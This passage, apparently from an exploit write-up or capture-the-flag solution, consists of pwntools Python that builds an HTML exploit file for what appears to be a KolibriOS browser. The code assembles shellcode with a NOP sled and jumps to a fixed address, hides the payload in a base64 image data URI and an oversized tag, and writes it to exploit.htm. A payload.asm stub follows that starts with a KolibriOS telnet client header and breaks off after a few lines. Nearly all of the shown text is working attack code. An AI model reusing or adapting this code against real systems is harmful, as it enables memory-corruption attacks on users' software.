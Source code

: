 ```python
setup += asm(f'mov eax, {ENTRY}')
setup += asm(f'jmp eax')
print(7, len(setup), setup.hex())
payload = setup + payload
payload = (b'\x90'*(MAX_LENGTH-len(payload))) + payload

IMG = b'<img src="data:image/png;base64,'+  payload +   b'" />'

def nop(size):
  return b'\x90' * size

def tagger(tag):
  return b'<' + tag + b'/>'

def vtagger(tag):
  return tagger(b'a' + tag)

def ctagger(size):
  return tagger(cyclic(size))

def otagger(tag):
  padding = cyclic(0x1f)
  return tagger(padding+tag)

exploit = b'a'
exploit += nop(0xa)
exploit += b'\xac'
exploit += asm('jmp $-0x1d')
exploit += nop(4)
exploit += asm('xor eax, eax', arch='i386')
exploit += asm('mov al, 0x40', arch='i386')
exploit += asm('shl eax, 0x10', arch='i386')
exploit += asm('mov ax, 0x0101', arch='i386')
exploit += asm('jmp eax', arch='i386')
exploit += nop(0x20-len(exploit))
print(exploit.hex())
with open('exploit.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
  exploithtm.write(IMG)
```



*payload.asm*

```assembly
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;                                                                 ;;
;; Copyright (C) KolibriOS team 2010-2015. All rights reserved.    ;;
;; Distributed under terms of the GNU General Public License       ;;
;;                                                                 ;;
;;  telnet.asm - Telnet client for KolibriOS                       ;;
;;                                                                 ;;
;;  Written by hidnplayr@kolibrios.org                             ;;
;;                                                                 ;;
;;          GNU GENERAL PUBLIC LICENSE                             ;;
;;             Version 2, June 1991                                ;;
;;                                                                 ;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

format binary as ""

BUFFERSIZE      = 4096

```